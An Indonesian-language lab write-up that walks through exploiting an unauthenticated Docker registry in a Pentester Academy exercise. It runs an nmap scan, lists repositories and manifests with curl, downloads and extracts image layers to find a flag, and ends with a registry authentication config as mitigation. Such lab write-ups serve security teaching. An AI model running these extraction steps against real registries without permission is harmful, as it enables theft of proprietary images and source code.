 # Insecure Docker Registry

## Apa itu docker registry

Docker registry merupakan sebuah aplikasi yang digunakan untuk menyimpan container image. Docker registry biasanya dideploy diatas docker engine sendiri atau sebagai container. 

Banyak sekali perusahaan memanfaatkan registry secara public untuk mempermudah pekerjaan mereka bahkan kalau kalian melakukan pencarian menggunakan mesin sodan, kalian bisa menemukan banyak sekali image registry yang terekspose ke internet. Tentu tidak semua image registry tersebut bisa kita eksploitasi dengan mudah. Sekarang saya akan membahas sebuah lab yang disediakan oleh pentester academy.

## Environment Lab

- docker registry : 192.111.246.3  
- attacker : 192.111.246.2

## Gather Information

Scan target menggunakan nmap, because why not :)
```
root@attackdefense:~# nmap -p- -sV 192.111.246.3
Starting Nmap 7.70 ( https://nmap.org ) at 2020-10-01 03:09 UTC
Nmap scan report for target-1 (192.111.246.3)
Host is up (0.000014s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
5000/tcp open  http    Docker Registry (API: 2.0)
MAC Address: 02:42:C0:6F:F6:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

Dari hasil scaning didapatkan port `5000` dengan tipe service `http`, version `Docker Registry (API: 2.0)`.

Kemudian kita coba interaksi ke API registry menggunakan `curl`.
```
root@attackdefense:~# curl http://192.111.246.3:5000/v2/_catalog
{"repositories":["treasure-trove"]}
```

Dari sini kita medapatkan bahwa registry terbuka tanpa perlu authentikasi.

## Extract container images

Dari informasi yang kita dapatkan, kita coba extract image `treasure-trove`. Terlebih dahulu list tags dari image tersebut untuk memastikan apabila ada image dengan tags lain yang mungkin lebih menarik.

```
root@attackdefense:~# curl http://192.111.246.3:5000/v2/treasure-trove/tags/list
{"name":"treasure-trove","tags":["latest"]}
```
Ternyata hanya ada tag latest. Kemudian kita extract manifest dari image tersebut.

```
root@attackdefense:~# curl http://192.111.246.3:5000/v2/treasure-trove/manifests/latest
{
   "schemaVersion": 1,
   "name": "treasure-trove",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:e7c96db7181be991f19a9fb6975cdbbd73c65f4a2681348e63a141a2192a5f10"
      }
   ],
```

Dari informasi blobSum ini kita bisa download image tersebut.

```
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:2a62ecb2a3e5bcdbac8b6edc58fae093a39381e05d08ca75ed27cae94125f935 --output 1.tar
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4 --output 2.tar
root@attackdefense:~# curl -s http://192.111.246.3:5000/v2/treasure-trove/blobs/sha256:e7c96db7181be991f19a9fb6975cdbbd73c65f4a2681348e63a141a2192a5f10 --output 3.tar
root@attackdefense:~# ls
1.tar  2.tar  3.tar
```

Extract image yang sudah didownload.

```
root@attackdefense:~# mkdir image
root@attackdefense:~# mv *.tar image
root@attackdefense:~# cd image/
root@attackdefense:~/image# for i in 1 2 3; do tar -xf $i.tar; done
root@attackdefense:~/image# ls
1.tar  2.tar  3.tar  bin  dev  etc  home  lib  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@attackdefense:~/image#
```

## Find the flag

```
root@attackdefense:~/image# find . -name *flag* 2> /dev/null
./etc/network/if-post-up.d/flag.txt
root@attackdefense:~/image# cat etc/network/if-post-up.d/flag.txt
c09f6e2ecff56dcae50c02c6a4d355fe
root@attackdefense:~/image#
```

OK flag sudah ketemu..

Untuk real casenya kalian bisa mendapatkan source code aplikasi yang merupakan proprietary suatu organisasi.

## Penanganan

Kalian bisa mengaplikasikan authentikasi di docker registry kalian.
```
  token:
    realm: token-realm
    service: token-service
    issuer: registry-token-issuer
    rootcertbundle: /root/certs/bundle
  htpasswd:
    realm: basic-realm
    path: /path/to/htpasswd
```
`source :` https://docs.docker.com/registry/configuration/#auth